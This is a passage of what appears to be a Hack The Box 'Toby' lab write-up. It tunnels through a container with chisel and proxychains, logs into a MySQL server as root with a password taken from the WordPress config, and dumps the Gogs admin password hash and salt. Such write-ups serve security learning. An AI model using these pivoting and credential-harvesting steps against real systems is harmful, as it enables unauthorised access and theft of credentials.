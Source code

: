 in this container we can't seem another resource except wordpress source code like on backup repository so cause we have some host from wordpress config (mysql.toby.htb)

```bash
$ nslookup mysql.toby.htb

Server:         127.0.0.11
Address:        127.0.0.11#53

Non-authoritative answer:
Name:   mysql.toby.htb
Address: 172.69.0.102
```

it's look like it another container and we can connect it, so try reverse proxy using chisel to connect database (ref for tunelling: [here](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html) )

```bash
$ proxychains mysql -h 172.69.0.102 -u root -pOnlyTheBestSecretsGoInShellScripts
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-172.69.0.102:3306-<><>-OK
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 1083
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```
we found wordpress and gogs are here

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| gogs               |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
+--------------------+
6 rows in set (0.094 sec)
```

i try gogs first and get some hash there, but it seem we can't crack it (took very long time)
```bash
MySQL [gogs]> select id,name,passwd,salt from user;                                                                                     
+----+------------+------------------------------------------------------------------------------------------------------+------------+ 
| id | name       | passwd                                                                                               | salt       | 
+----+------------+------------------------------------------------------------------------------------------------------+------------+ 
|  2 | toby-admin | 8a611020ad6c56ffd791bf334d32d32748baae42975259607ce268c274a42958ad581686151fe1bb0b736370c82fa6afebcf | PlCxfl4BrQ | 
+----+------------+------------------------------------------------------------------------------------------------------+------------+ 
1 row in set (0.091 sec)
```
